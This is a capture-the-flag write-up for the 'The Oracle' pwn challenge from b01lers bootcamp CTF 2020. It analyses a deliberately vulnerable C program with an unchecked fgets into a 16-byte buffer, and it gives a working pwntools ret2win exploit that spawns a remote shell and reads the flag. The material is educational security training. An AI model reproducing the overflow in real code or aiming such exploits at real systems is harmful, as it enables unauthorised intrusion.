 # b01lers bootcamp CTF 2020

## The Oracle

> 100
>
> Would you still have broken it if I hadn't said anything?
>
> `nc chal.ctf.b01lers.com 1015`
> 
> [theoracle](theoracle)  
> [theoracle.c](theoracle.c)

Tags: _pwn_ _x86-64_ _remote-shell_ _bof_ _ret2win_


## Summary

Basic _ret2win_.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Anything goes but shellcode.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  char local_18 [16];
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("Know Thyself.");
  fgets(local_18,0x80,stdin);
  return 0;
}

void win(void)
{
  char *local_18;
  char *local_10;
  
  local_10 = (char *)0x0;
  local_18 = (char *)0x0;
  execve("/bin/sh",&local_10,&local_18);
  return;
}
```

> Yes the source is included, but only Ghidra tells me I need to write `0x18` (`local_18`) bytes to get to the return address.

So, `fgets` will _get_ up to `0x80` bytes for a buffer that is `0x18` bytes from the return address on the stack.  With no PIE, setting up a _win_ is easy.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./theoracle')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.ctf.b01lers.com', 1015)

payload  = 0x18 * b'A'
payload += p64(binary.sym.win)

p.sendlineafter('Know Thyself.\n',payload)
p.interactive()
```

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/b01lersbootcampctf2020/the_oracle/theoracle'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.ctf.b01lers.com on port 1015: Done
[*] Switching to interactive mode
$ id
uid=1000(theoracle) gid=1000(theoracle) groups=1000(theoracle)
$ ls -l
total 36
-r-xr-x--- 1 root theoracle    86 Oct  2 18:33 Makefile
-r--r----- 1 root theoracle    45 Oct  2 18:33 flag.txt
-r-xr-x--- 1 root theoracle 16936 Oct  3 04:09 theoracle
-r-xr-x--- 1 root theoracle   330 Oct  2 18:33 theoracle.c
-r-xr-x--- 1 root theoracle    47 Oct  2 18:33 wrapper.sh
$ cat flag.txt
flag{Be1ng_th3_1_is_JusT_l1ke_b3ing_in_l0v3}
```
